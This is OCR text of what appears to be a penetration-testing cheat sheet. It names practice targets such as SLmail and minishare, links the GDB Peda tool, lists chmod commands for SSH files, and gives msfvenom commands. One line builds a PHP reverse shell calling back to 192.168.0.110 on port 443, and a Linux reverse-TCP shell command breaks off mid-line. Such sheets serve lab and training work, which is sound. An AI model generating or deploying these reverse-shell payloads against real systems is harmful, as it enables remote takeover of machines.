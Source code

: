 SLmail
ftpfreefloat
minishare
Ftpfreefloat
Tools :

GDB Peda (https://github.com/longld/peda)

Misc

SSH Permissions

1 chmod 700 ~/.ssh
2 chmod 644 ~/.ssh/authorized_keys
3 chmod 644 ~/.ssh/known_hosts
4 chmod 644 ~/.ssh/config
5 chmod 600 ~/.ssh/id_rsa
6 chmod 644 ~/.ssh/id_rsa.pub

Msfvenom

MSF Venom Payloads

1 msfvenom --list formats
2 msfvenom --list encoders

PHP

msfvenom -p php/reverse_php LHOST=192.168.0.110 LPORT=443 > tmp.php

Linux Elf

msfvenom -p linux/x86/shell_reverse_tcp LHOST=
